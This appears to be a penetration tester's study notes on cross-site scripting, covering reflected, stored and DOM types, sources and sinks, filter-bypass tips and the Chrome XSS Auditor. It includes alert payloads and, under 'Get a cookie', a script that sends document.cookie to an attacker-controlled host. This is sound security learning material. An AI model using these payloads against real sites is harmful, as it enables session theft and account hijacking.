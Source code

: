 # XSS - Cross-Site Scripting

## Introduction

* An XSS vulnerability lets you inject a malicious script on a website
  * One notable use is to steal cookies
* Where to find XSS :
  * Any input on a website really \(if it's not properly sanitized\)
  * Concatenated http parameter pollution
  * Url of action form : `javascript:alert(1337)`
  * Url :
    *  `data:text/html,<script>alert(0)</script>`
    * URL parameters that renders on the page

## Types

### Reflected

* The input is sent to the server and reflected on the page

### Stored

* Same but the input is also persisted in a db of some sort

### DOM

* The input is directly inserted into the DOM \(without being sent to the server at all\)
* **Sources** \(where the input goes\) :
  * `document.url`
  * `document.referrer`
  * `location`
  * `location.href`
  * `location.search`
  * `location.hash`
  * `location.pathname`
  * etc
* **Sinks** \(where the input ends up\) :
  * `element.innerHTML()`
  * `element.outerHTML()`
  * `eval()`
  * `setTimeout()`
  * `setInterval()`
  * `document.write()`
  * `document.writeln()`
  * etc
* A `<script>alert();</script>` inserted via `inner.html` won't be executed

### Polygots

XSS payloads made from a mixture of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

## Tips

* Use lists with _burp intruder_
* If `<script>` aren't accepted, use events like `onfocus`, `onload`, etc
* `google.com/jsapi?callback=alert` can be used to received a function in a callback
* Check : [Bypassing Sanitizers](https://zcugni.gitbook.io/notes/pen-test/vulnerabilities#bypassing-sanitizers) & the [Owasp Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

## XSS Auditor

* Exist in Chrome, not in Firefox and I don't know for the rest
* Broadly speaking, it detects XSS injection by comparing what is given in the url with the scripts of the page
* Because of that, we can inject in the url a script that is in the page to disable it
* Might soon disappear because it create vulnerabilities and gives a false impression of security to devs

## Get a cookie

By example by injecting this script :

```javascript
<script>
    document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)'s multiple videos
* _Real-World Bug Hunting: A Field Guide to Web_ Hacking by Peter Yaworski
* Misc research

